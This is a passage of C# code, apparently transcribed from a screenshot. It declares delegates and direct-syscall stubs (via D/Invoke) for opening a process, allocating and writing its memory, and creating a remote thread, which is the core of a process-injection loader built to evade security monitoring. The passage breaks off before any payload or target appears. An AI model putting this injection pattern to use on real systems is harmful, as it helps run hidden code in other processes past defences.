 ```csharp
            public IntPtr SecurityQualityOfService;
        }

        [StructLayout(LayoutKind.Sequential)]
        public struct CLIENT_ID
        {
            public IntPtr UniqueProcess;
            public IntPtr UniqueThread;
        }
    }

    class Delegates
    {
        [UnmanagedFunctionPointer(CallingConvention.StdCall)]
        public delegate DInvoke.Data.Native.NTSTATUS NtOpenProcess(
            ref IntPtr ProcessHandle,
            DInvoke.Data.Win32.Kernel32.ProcessAccessFlags DesiredAccess,
            ref Win32.OBJECT_ATTRIBUTES ObjectAttributes,
            ref Win32.CLIENT_ID ClientId);

        [UnmanagedFunctionPointer(CallingConvention.StdCall)]
        public delegate DInvoke.Data.Native.NTSTATUS NtAllocateVirtualMemory(
            IntPtr ProcessHandle,
            ref IntPtr BaseAddress,
            IntPtr ZeroBits,
            ref IntPtr RegionSize,
            uint AllocationType,
            uint Protect);

        [UnmanagedFunctionPointer(CallingConvention.StdCall)]
        public delegate DInvoke.Data.Native.NTSTATUS NtWriteVirtualMemory(
            IntPtr ProcessHandle,
            IntPtr BaseAddress,
            IntPtr Buffer,
            uint BufferLength,
            ref uint BytesWritten);

        [UnmanagedFunctionPointer(CallingConvention.StdCall)]
        public delegate DInvoke.Data.Native.NTSTATUS NtCreateThreadEx(
            ref IntPtr threadHandle,
            DInvoke.Data.Win32.WinNT.ACCESS_MASK desiredAccess,
            IntPtr objectAttributes,
            IntPtr processHandle,
            IntPtr startAddress,
            IntPtr parameter,
            bool createSuspended,
            int stackZeroBits,
            int sizeOfStack,
            int maximumStackSize,
            IntPtr attributeList);
    }

    public class Program
    {
        static DInvoke.Data.Native.NTSTATUS NtOpenProcess(ref IntPtr ProcessHandle, DInvoke.Data.Win32.Kernel32.ProcessAccessFlags DesiredAccess, ref Win32.OBJECT_ATTRIBUTES ObjectAttributes, ref Win32.CLIENT_ID ClientId)
        {
            IntPtr stub = DInvoke.DynamicInvoke.Generic.GetSyscallStub("NtOpenProcess");
            Delegates.NtOpenProcess ntOpenProcess = (Delegates.NtOpenProcess)Marshal.GetDelegateForFunctionPointer(stub, typeof(Delegates.NtOpenProcess));

```

[//]: # (2022-03-29)